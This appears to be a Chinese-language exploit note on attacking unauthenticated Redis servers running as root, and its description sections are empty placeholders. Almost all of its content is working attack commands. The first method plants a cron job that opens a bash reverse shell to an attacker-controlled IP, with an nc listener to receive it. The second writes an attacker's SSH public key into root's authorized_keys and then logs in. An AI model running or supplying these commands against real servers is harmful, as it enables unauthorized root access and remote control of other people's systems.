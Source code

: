 # redis总结

### 一、漏洞简介

redis总结

### 二、影响范围

### 三、复现过程

攻击的几种方法

参考:

* http://www.cnblogs.com/xiaozi/p/7568272.html
* https://evi1cg.me/archives/hackredis.html

(1).利用计划任务执行命令反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell

先在自己的服务器上监听一个端口


```
nc -lvnp 7999
```

然后执行命令:


```bash
root@kali:~## redis-cli -h 192.168.63.130
      192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
      192.168.63.130:6379> config set dir /var/spool/cron/
      192.168.63.130:6379> config set dbfilename root
      192.168.63.130:6379> save
```
      
ps:此处使用bash反弹shell，也可使用其他方法

(2).写ssh-keygen公钥然后使用私钥登陆

在以下条件下，可以利用此方法

1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

首先在本地生成一对密钥：


```
root@kali:~/.ssh## ssh-keygen -t rsa
```

然后redis执行命令：


```bash
ssh-keygen -t rsa

(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
cat foo.txt | redis-cli -h x.x.x.x -x set crackit
redis-cli -h x.x.x.x
     > config set dir /root/.ssh/
     > config get dir
     > config set dbfilename "authorized_keys"
     > save

ssh -i id_rsa root@x.x.x.x
```
